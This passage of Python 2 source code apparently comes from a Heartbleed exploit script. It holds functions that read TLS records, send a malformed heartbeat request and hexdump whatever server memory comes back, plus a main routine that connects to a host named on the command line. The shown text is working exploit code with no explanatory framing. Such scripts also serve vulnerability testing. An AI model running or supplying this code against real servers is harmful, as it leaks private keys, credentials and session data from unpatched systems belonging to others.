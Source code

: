 	                return None
	            rdata += data
	            remain -= len(data)
	    return rdata
	 
	 
	def recvmsg(s):
	    hdr = recvall(s, 5)
	    if hdr is None:
	        print 'Unexpected EOF receiving record header - server closed connection'
	        return None, None, None
	    typ, ver, ln = struct.unpack('>BHH', hdr)
	    pay = recvall(s, ln, 10)
	    if pay is None:
	        print 'Unexpected EOF receiving record payload - server closed connection'
	        return None, None, None
	    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
	    return typ, ver, pay
	 
	def hit_hb(s):
	    s.send(hb)
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ is None:
	            print 'No heartbeat response received, server likely not vulnerable'
	            return False
	 
	        if typ == 24:
	            print 'Received heartbeat response:'
	            hexdump(pay)
	            if len(pay) > 3:
	                print 'WARNING: server returned more data than it should - server is vulnerable!'
	            else:
	                print 'Server processed malformed heartbeat, but did not return any extra data.'
	            return True
	 
	        if typ == 21:
	            print 'Received alert:'
	            hexdump(pay)
	            print 'Server returned error, likely not vulnerable'
	            return False
	 
	def main():
	    opts, args = options.parse_args()
	    if len(args) < 1:
	        options.print_help()
	        return
	 
	    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	    print 'Connecting...'
	    sys.stdout.flush()
	    s.connect((args[0], opts.port))
	    print 'Sending Client Hello...'
	    sys.stdout.flush()
	    s.send(hello)
	    print 'Waiting for Server Hello...'
	    sys.stdout.flush()
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ == None:
	            print 'Server closed connection without sending Server Hello.'
	            return
	        # Look for server hello done message.
	        if typ == 22 and ord(pay[0]) == 0x0E:
	            break
	 